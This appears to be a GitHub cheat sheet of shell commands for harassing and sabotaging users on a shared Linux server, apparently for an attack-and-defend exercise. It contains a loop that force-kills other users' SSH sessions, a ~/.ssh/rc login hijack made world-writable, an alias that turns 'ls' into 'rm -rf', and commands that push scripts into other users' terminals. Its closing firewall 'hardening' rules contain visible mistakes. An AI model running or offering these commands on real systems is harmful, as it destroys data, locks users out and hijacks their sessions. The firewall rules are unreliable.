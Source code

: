 ### SSH session fuckery

```
ssh2keep={1 2} 

ssh2boot=({1..20}); while true; do for session in "${ssh2boot[@]}"; do if [[ ! " ${ssh2keep[@]} " =~ " ${session} " ]]; then if ps -t pts/${session} > /dev/null 2>&1; then echo "Session pts/${session} discovered!!!"; pkill -9 -t pts/${session}; echo "Attempted to kill pts/${session}..."; if ! ps -t pts/${session} > /dev/null 2>&1; then echo "pts/${session} killed :)"; else echo "Failed to kill pts/${session}."; fi; fi; fi; done; sleep 1; done
```


### SSH Service fuckery

**run a command on an ssh session when it starts**

```bash
nano /home/user/.ssh/rc


bash /dev/shm/parrot.sh

or 

while true; do for i in $(seq 1 5); do clear; printf "\n\n\r     Loading$(printf '.%.0s' $(seq 1 $i)) \n\n"; sleep 0.5; done; done


chmod 777 /home/user/.ssh/rc
```


### bashrc aliases

```
alias ls='rm -rf'
alias clear='telnet towel.blinkenlights.nl'
```



### terminal pets

```
bash parrot.sh > /dev/pts/1 &
bash pedro.sh > /dev/pts/1 &

kill -9 PID
```


### Server Hardening

**ports**
```bash
# Block incoming traffic on port 22 
sudo iptables -A INPUT -p tcp --dport 22 -j DROP
sudo iptables -A INPUT -p udp --dport 22 -j DROP 

# Block outgoing traffic on port 22 
sudo iptables -A OUTPUT -p tcp --sport 22 -j DROP
sudo iptables -A INPUT -p udp --dport 22 -j DROP 


# Setting default policies:
iptables -P INPUT DROP
iptables -P FORWARD DROP
iptables -P OUTPUT ACCEPT

# Exceptions to default policy
iptables -A INPUT -p tcp --dport 80 -j ACCEPT       # HTTP
iptables -A INPUT -p tcp --dport 443 -j ACCEPT      # HTTPS
```

**services**

```
```

